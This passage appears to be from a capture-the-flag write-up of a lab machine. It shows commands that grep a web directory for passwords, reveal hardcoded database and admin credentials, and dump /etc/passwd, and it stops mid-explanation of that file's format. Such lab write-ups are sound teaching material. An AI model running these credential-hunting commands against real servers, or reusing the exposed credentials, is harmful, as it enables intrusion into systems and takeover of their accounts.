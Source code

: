 **Credential Discovery:**
```bash
# Navigate to web application directory
cd /var/www/html/cdn-cgi/login

# Search for password-related strings
cat * | grep -i passw*

# Found in db.php:
# $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

```bash
cat * |grep -i passw*
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Each line is an entry from the Linux `/etc/passwd` file, which defines user accounts. The fields are separated by colons (`:`) and have the following format:
